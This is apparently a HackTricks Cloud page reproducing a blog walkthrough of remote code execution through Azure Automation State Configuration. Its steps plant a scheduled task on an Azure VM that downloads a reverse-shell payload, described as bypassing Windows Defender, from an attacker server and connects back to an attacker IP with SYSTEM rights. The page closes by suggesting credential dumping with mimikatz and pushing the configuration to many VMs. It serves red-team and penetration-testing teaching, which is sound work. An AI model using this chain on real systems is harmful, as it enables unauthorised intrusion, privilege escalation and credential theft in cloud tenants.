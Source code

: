 # Az - State Configuration RCE

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

**This post was copied from** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Remote Server (C2) Infrastructure Preparation <a href="#f0fa" id="f0fa"></a>

I will be hosting a stripped-down version of the Nishang Invoke-PowerShellTcp.ps1 payload from the remote server “40.84.7.74”, which is the Kali box. The payload name will be “RevPS.ps1”. To prevent the Nishang script getting deleted by Windows Defender for any reason (maybe you’d rather drop the file to disk) I have a lightweight version here that you can use which will bypass Defender: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1). This will be hosted by a simple Python Simple Server on the Kali box.

### Step 1 — Create Files <a href="#89de" id="89de"></a>

We’ll need to create another DSC configuration file. A template can be downloaded here: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1). This config file will use the same file-write function that we previously used. This time, the contents include code to download and execute a payload from our remote server. Also, we’re using a scheduled-task function available from the _ComputerManagementDsc_ module. The scheduled-task function will be the key role in execution and providing us with SYSTEM privileges later on.

We’ll also download a script which will be used to publish our configuration to the VM. This is located here: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).

These files will serve as a template. **You’ll need to fill in the variable names and parameters with what you’re using**. This includes the resource names, file paths, and the external server/payload names that you’re using. Please refer to the comments in the code.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### Step 2 — Zip Configuration File <a href="#c2c2" id="c2c2"></a>

With our two files created, we’ll zip the **‘reverse\_shell\_config.ps1’** file so it can be sent to the Storage Account

```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```

<figure><img src="../../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

### Step 3 — Set Storage Context & Upload <a href="#bed9" id="bed9"></a>

Again, we’ll setup the context of our Storage Account which I’ve already done. I already have a container named ‘**azure-pentes**t’ so this is where I’ll be publishing mine:

```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```

<figure><img src="../../../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

### Step 4 — Prep Kali Box <a href="#20fb" id="20fb"></a>

In our Kali box, we can simply _wget_ our PowerShell payload. The raw reverse-shell script is located here: [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1).

```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```

<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

We need to edit the reverse-shell script by adding our parameters in, so the Windows VM knows where to connect to once it’s executed. In my case I add following:

```
RevPShell -Reverse 40.84.7.73 443
```

<figure><img src="../../../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

### Step 5 — Publish Configuration File <a href="#9ad6" id="9ad6"></a>

Now we’ll run our configuration file. I have mine setup to be published to the Desktop for a better visual, however it can be published just about anywhere. After a couple of minutes, we’ll see that the reverse-shell script has been published!

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Step 6 — Host Payload and Setup Listener <a href="#c55f" id="c55f"></a>

Once we publish the configuration, we can concurrently start a Python SimpleHTTPServer over port 80 to host the payload, along with a netcat listener in order to catch the connection:

```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```

We see that the scheduled task has run and our payload was retrieved and executed in memory with **SYSTEM** level privileges!

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### Wrapping Up <a href="#1ec2" id="1ec2"></a>

This now opens the door for many possibilities. Since we have a shell running as **SYSTEM,** we can dump credentials with mimikatz (potentially risky depending on how mature the EDR is for cloud resources). If you dump creds , there's a good chance that these can be reused elsewhere across different resources. Lastly, a big takeaway is that instead of limiting this to one VM, you now have the ability to potentially apply this configuration across multiple VM’s.

On that note, this concludes our Azure Automation DSC adventures! I hope you had fun, learned a lot and continue to expand with your own creativity.

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
